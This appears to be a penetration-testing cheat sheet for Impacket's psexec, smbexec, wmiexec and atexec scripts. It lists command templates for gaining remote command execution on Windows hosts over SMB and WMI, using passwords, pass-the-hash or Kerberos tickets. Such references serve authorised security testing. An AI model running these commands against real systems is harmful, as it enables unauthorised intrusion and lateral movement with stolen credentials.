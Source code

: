 # impacket

% impacket, windows, exec

## PSEXEC with username
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
psexec.py <domain>/<user>:<password>@<rhost>
```

## PSEXEC with pass the Hash (pth)
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
psexec.py -hashes <hash> <user>@<rhost>
```

## PSEXEC with kerberos
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
export KRB5CCNAME=<ccache_file>; psexec.py -dc-ip <rhost> -target-ip <rhost> -no-pass -k <domain>/<user>@<target_name>
```

## SMBEXEC with username
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
smbexec.py <domain>/<user>:<password>@<rhost>
```

## SMBEXEC with pass the Hash (pth)
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
smbexec.py -hashes <hash> <user>@<rhost>
```

## SMBEXEC with kerberos
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
export KRB5CCNAME=<ccache_file>; smbexec.py -dc-ip <rhost> -target-ip <rhost> -no-pass -k <domain>/<user>@<target_name>
```

## wmiexec
#plateform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT  
Execute a command shell without touching the disk or running a new service using DCOM

```
wmiexec.py <domain>/<user>:<password>@<rhost>
```

## wmiexec  with pass the hash (pth) 
#plateform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT  

Execute a command shell without touching the disk or running a new service using DCOM

```
wmiexec.py -hashes <hash> <user>@<rhost>
```

## atexec - execute command view the task scheduler 
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
Using \pipe\atsvc via SMB

```
atexec.py <domain>/<user>:<password>@<rhost> "command"
```

## atexec pass the hash (pth)
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
Execute command view the task scheduler (using \pipe\atsvc via SMB)

```
atexec.py -hashes <hash> <user>@<rhost> "command"
```
